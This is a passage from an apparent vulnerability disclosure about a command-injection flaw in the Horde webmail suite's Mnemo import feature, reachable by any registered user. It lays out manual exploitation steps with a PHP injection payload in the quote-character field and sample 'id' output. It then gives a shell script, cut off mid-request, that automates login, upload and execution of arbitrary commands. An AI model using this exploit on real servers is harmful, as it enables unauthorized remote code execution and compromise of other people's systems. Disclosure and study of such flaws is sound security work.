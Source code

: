 Among all the affected applications, Mnemo is probably one of the easiest to exploit as it does not require additional parameters that need to be scraped from the pages.

### Manual exploit

This vulnerability can be easily exploited manually by any registered user:

1. log into Horde;

2. navigate to `http://target.com/mnemo/data.php`;

3. select any non-empty file to import then click "Next";

4. in the input field labeled by "What is the quote character?" write the payload, e.g., `).passthru("id").die();}//\`
then click "Next";

5. the output of the command should be returned, for example:

   ```
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```

### Shell exploit

Follows a simple script that automates the above steps:

```sh
#!/bin/sh

if [ "$#" -ne 4 ]; then
    echo '[!] Usage: <url> <username> <password> <command>' 1>&2
    exit 1
fi

BASE="$1"
USERNAME="$2"
PASSWORD="$3"
COMMAND="$4"

JAR="$(mktemp)"
trap 'rm -f "$JAR"' EXIT

echo "[+] Logging in as $USERNAME:$PASSWORD" 1>&2
curl -si -c "$JAR" "$BASE/login.php" \
    -d 'login_post=1' \
    -d "horde_user=$USERNAME" \
    -d "horde_pass=$PASSWORD" | grep -q 'Location: /services/portal/' || \
    echo '[!] Cannot log in' 1>&2

echo "[+] Uploading dummy file" 1>&2
echo x | curl -si -b "$JAR" "$BASE/mnemo/data.php" \
    -F 'actionID=11' \
    -F 'import_step=1' \
    -F 'import_format=csv' \
    -F 'notepad_target=x' \
    -F 'import_file=@-;filename=x' \
    -so /dev/null

echo "[+] Running command" 1>&2
BASE64_COMMAND="$(echo -n "$COMMAND 2>&1" | base64 -w0)"
curl -b "$JAR" "$BASE/mnemo/data.php" \
    -d 'actionID=3' \
    -d 'import_step=2' \
    -d 'import_format=csv' \
    -d 'header=1' \
    -d 'fields=1' \
    -d 'sep=x' \
```

[^kronolith]: Although it seems feasible according to the source code it does not seem possible to reach the feature via the web interface.
[horde-data]: https://github.com/horde/Data
[horde-data-fix]: https://github.com/horde/Data/commit/78ad0c2390176cdde7260a271bc6ddd86f4c9c0e#diff-e6c7843f9847ab630ddabc9b004e1e7d
[^module]: This module (with some modifications) is [now](https://github.com/rapid7/metasploit-framework/pull/13082#issuecomment-602563735) part of Metasploit.
